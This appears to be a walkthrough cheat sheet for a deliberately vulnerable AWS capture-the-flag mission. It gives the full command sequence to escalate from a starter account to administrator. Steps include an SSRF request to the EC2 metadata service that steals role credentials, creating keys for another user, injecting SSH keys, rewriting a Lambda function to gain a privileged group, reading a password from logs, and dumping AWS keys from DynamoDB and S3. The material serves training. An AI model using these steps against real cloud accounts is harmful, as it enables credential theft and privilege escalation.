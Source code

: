 # Mission 5 cheat sheet


This mission serves as a much bigger game, with a whole, three-tiered infrastructure. It will take users through a vast range of topics and require a variety of skills on most basic free-tier services.


  * Given: AWS key, AWS secret key
  * Variables: $id


$ `aws configure --profile solus`

Set up the credentials for use. Region is always us-east-1 and json output is recommended.

## As user solus (Tier 1)

## Route 1: EC2 proxy SSRF

$ `aws --profile solus ec2 describe-instances`

List the existing instances. There are quite a number of them, but one has the tag "proxy" and a public IP address. 


$ `curl <public ip of proxy instance>?url=169.254.169.254/latest/meta-data/iam/security-credentials/AWS-secgame-mission5-role-ec2proxy-$id`

The proxy is vulnerable to SSRF (server-side request forgery) and allows us to query the metadata server.


$ `aws configure --profile mission5_ec2`

Configure the obtained credentials. Remember to edit your ~/.aws/credentials file to add the aws_session_token.


$ `aws --profile mission5_ec2 s3 ls`

This allows us to list s3 buckets. Only one of them is available.


$ `aws --profile mission5_ec2 s3 sync s3://aws-secgame-mission5-s3-personal-data-emmyselly-$id .; cat aws_key_reminder.txt`

Sync the contents of the bucket and read the AWS keys.


$ `aws configure --profile emmyselly`

Configure your new profile.


## Route 2: Generate new credentials for the next user

$ `aws --profile solus iam list-users` 

List users. 


$ `aws --profile solus iam create-access-key --user-name emmyselly-$id`

Generate a new access key for user emmyselly. Note that you cannot do it with any other user (it'd be too easy). Be mindful, you can only have two sets of active credentials per user at any given time.


$ `aws configure --profile emmyselly`

Set up the new credentials.


## As user emmyselly (Tier 2)

$ `aws --profile emmyselly ec2 describe-instances`

List instances again. This user likely has better privileges than the last one. One of the instances advertises connection using ec2-instance-connect. We will try using this. Note the instance id and ip as $mail_server_id and $mail_server_ip. Its availability zone is us-east-1a


$ `ssh-keygen -t rsa -f key; chmod 400 key`

Generate a new SSH key. You do not need to set a passphrase, this key is temporary. 


$ `aws --profile emmyselly ec2-instance-connect send-ssh-public-key --instance-id $mail_server_id --instance-os-user ec2-user --availability-zone us-east-1a --ssh-public-key file://key.pub`

Use ec2-instance-connect to send your public key to the instance. If needs be, you can guess the os user, the most common being ec2-user and ubuntu. The public key stays valid for one minute.


$ `ssh -i key ec2-user@$mail_server_ip`

Log in to the mail server and investigate /mail.


$ `cat ernest-viladmin/mailfrom\:\ ernest-viladmin\;\ on\:\ 24_11_20XX.txt; cat ernest-viladmin/mailto\:\ bob-lunder\;\ on\:\ 25_11_20XX.txt; cat 3v1l-m4n4ger/mailfrom\:\ Y\;\ on\:\ 25_11_20XX.txt`

This gives us information on two lambda functions: one to dump logs, one to change privileges of users attempting to shut down the "security hypervisor", an apparent honeypot.


$ `exit`

Leave the mail server.


$ `aws --profile emmyselly lambda list-functions`

List existing lambda functions. We can get the code for one of them.


$ `aws --profile emmyselly lambda get-function --function-name AWS-secgame-mission5-lambda-change-group-$id`

A link is given as output. Open it in a browser and download the .zip file.


$ `unzip <archive file>; cat lambda-change-group.py`

Unzip the archive file, and peer in the program.
The program detects tampering, and switches the user to another group, called "suspects". According to the mails, it will kill your privileges.

NB: The current user is used here. Detecting any user required the use of CloudTrail trails, which is outside the scope of free tier. As such, realism here was traded here in order to ensure the free tier was not exceeded.


$ `aws --profile emmyselly iam list-groups`

List the existing groups. An interesting group appears to be privileged-$id.


$ `vim lambda-change-group.py; zip lambda.zip lambda-change-group.py`

Edit the function to swap out the group name, and zip the function again


$ `aws --profile emmyselly lambda update-function-code --function-name AWS-secgame-mission5-lambda-change-group-$id --zip-file fileb://lambda.zip`

Load the new function code in the lambda. The code is triggered when someone attempts to shut down the security hypervisor. Let us trigger the code.


$ `aws --profile emmyselly ec2 stop-instances --instance-id <security hypervisor id>`

Stop the instance to trigger the lambda function. It is also allowed to terminate it.


$ `aws --profile emmyselly iam list-groups-for-user --user-name emmyselly-$id`

List your groups. Notice you are now in the privileged group.


## The dynamo database (Tier 3)

$ `aws --profile emmyselly ec2 describe-instances`

It is time to investigate the "dynamo-handler" instance. Note its id and ip as $ddb_handler_id and $ddb_handler_ip.

## Route 1: Investigate the lambda logs

$ `aws --profile emmyselly ec2 stop-instances --instance-id $dynamo_handler_id`

Stop the dynamo handler instance. Notice it comes back up immediately. As specified in the mail, this will generate logs.


$ `aws --profile emmyselly logs describe-log-groups`

List the log groups and notice there is one for "lambda-dump-logs".


$ `aws --profile emmyselly logs describe-log-streams --log-group-name <lambda-dump-logs log group>`

List the log streams and note the log stream name. **CAUTION**, you will have to escape the "$LATEST" when calling the name in the command-line interface. Write "\$LATEST" to do this.


$ `aws --profile secgame_test logs get-log-events --log-group-name <lambda-dump-logs log group> --log-stream-name <lambda-dump-logs latest log stream>`

List the log events. Notice the username and password in the logs...


$ `ssh ec2-user@$dynamo_handler_ip`

Use the password foobarbazevil to log in to the dynamo handler. Be careful that restarting the instance will have changed its public ip.


## Route 2: Use ec2-instance-connect

$ `aws --profile emmyselly ec2-instance-connect send-ssh-public-key --instance-id $dynamo_handler_id --instance-os-user ec2-user --availability-zone us-east-1a --ssh-public-key file://key.pub`

Use ec2-instance-connect to send your public key to the instance, since the privileged group allows ec2-instance-connect. If needs be, you can guess the os user, the most common being ec2-user and ubuntu.


$ `ssh -i key ec2-user@$dynamo_handler_ip`

Log in to the dynamo handler.

## Once you are logged in the dynamo handler

$ `aws --region us-east-1 dynamodb list-tables`

List the existing tables and notice there is one table called "AWSkeys-$id"


$ `aws --region us-east-1 dynamodb scan --table-name AWSkeys-$id`

Scan the table. AWS keys are found there.


$ `exit`

Leave the dynamo handler.


$ `aws configure --profile hades`

Configure the new credentials.


$ `aws --profile hades iam list-user-policies --user-name hades-$id`

List existig user policies


$ `aws --profile hades iam get-user-policy --user-name hades-$id --policy-name hades-policy-$id`

Display the policy. Notice you are administrator!


$ `aws --profile hades s3 ls; aws --profile hades s3 sync s3://aws-secgame-mission5-super-secret-utlimate-s3-$id ./final-bucket; cd final-bucket`

Find the last bucket and download its contents.


$ `cat .hey_there_hacker.txt`

You win! Congratulations!